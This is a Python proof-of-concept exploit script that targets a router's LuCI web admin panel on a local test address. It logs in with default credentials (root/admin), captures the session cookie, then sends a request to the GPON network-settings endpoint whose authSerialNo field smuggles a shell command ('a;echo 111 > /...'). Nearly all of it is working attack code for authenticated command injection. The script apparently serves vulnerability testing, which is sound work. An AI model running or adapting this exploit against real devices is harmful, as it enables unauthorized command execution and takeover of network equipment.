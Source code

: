 import requests
from urllib.parse import parse_qs
import urllib

proxies1 = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080',
}

def str_to_head_dict(input_str):
    tar_dict = {}
    lines = input_str.strip().split('\n')
    for line in lines:
        if ': ' in line:
            key, value = line.split(': ', 1)
            tar_dict[key.strip()] = value.strip()
    return tar_dict

def parse_query_string(query_string):
    query_dict = {}
    pairs = query_string.split("&")  

    for pair in pairs:
        if pair:  
            key_value = pair.split("=")
            if len(key_value) == 2:
                key, value = key_value
                query_dict[key] = value

    return query_dict


def parse_query_string_nowhite(query_string):
    decoded_str = urllib.parse.unquote(query_string)

    pairs = decoded_str.split('&')

 
    request_dict = {}
    for pair in pairs:
        eq_index = pair.find('=')
        if eq_index != -1:
            key = pair[:eq_index]
            value = pair[eq_index + 1:]
        else:
            key = pair
            value = ''
        
        request_dict[key] = value

   
    return (request_dict)


def make_GET_request(url,header_dict,data_dict={},proxy=None):
    # url = "http://192.168.1.101:8080/gh3fuzz/1011854.php"
    headers = {
        'Host': "192.168.1.101:8080",
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0",
        'Accept': "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        'Accept-Language': "en-US,en;q=0.5",
        'Accept-Encoding': "gzip, deflate",
        'Connection': "close",
        'Upgrade-Insecure-Requests': "1",
        'Sec-Fetch-Dest': "document",
        'Sec-Fetch-Mode': "navigate",
        'Sec-Fetch-Site': "none",
    }
    data = {
        
    }
    data.update(data_dict)
    headers.update(header_dict)

    response = requests.get(url, headers=headers, params=data, proxies=proxy)
    print(response.text)    

def make_POST_request(url,header_dict,data_dict={},get_header=0,get_data=0,proxy=None):
    # url = "http://192.168.1.101:8080/gh3fuzz/1011854.php"
    payload = "username=admin&password=admin"
    headers = {
        'Content-Type': "application/x-www-form-urlencoded",
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0",
    }
    data = {
        
    }
    data.update(data_dict)
    headers.update(header_dict)

    response = requests.post(url, headers=headers, data=data, proxies=proxy)
    print(response.text)
    if get_header:
        print(response.headers)
        return response.headers

if __name__ == "__main__":
    url = "http://172.17.0.2"

    # 
    header_info = make_POST_request(url+"/cgi-bin/luci/",str_to_head_dict("""
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/cgi-bin/luci
Cookie: repeatTimes=0; isLogin=false; __guid=21234567
Upgrade-Insecure-Requests: 1
Priority: u=0, i
"""),parse_query_string_nowhite("""username-show=root&username=cm9vdA%3D%3D&password-show=admin&password=YWRtaW4%3D"""),1)#,0,proxy=proxies1)

    set_cookie = header_info["Set-Cookie"]
    print(set_cookie)
    path = set_cookie.split("; ")[1].split("path=")[1]
    sysauth = set_cookie.split("; ")[0].split("=")[1]


    make_POST_request(url+path+"/admin/gpon/set-net-settings",str_to_head_dict("""
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://172.17.0.2/cgi-bin/luci
Cookie: sysauth={}; repeatTimes=0; isLogin=true; __guid=209503442.1611206664802250800.1716428588737.2761
Upgrade-Insecure-Requests: 1
Priority: u=0, i""".format(sysauth)),parse_query_string_nowhite("""authSerialNo=a;echo 111 > /1011854_test_action_set_net_settings& """),1)#,0,proxy=proxies1)0,proxy=proxies1)

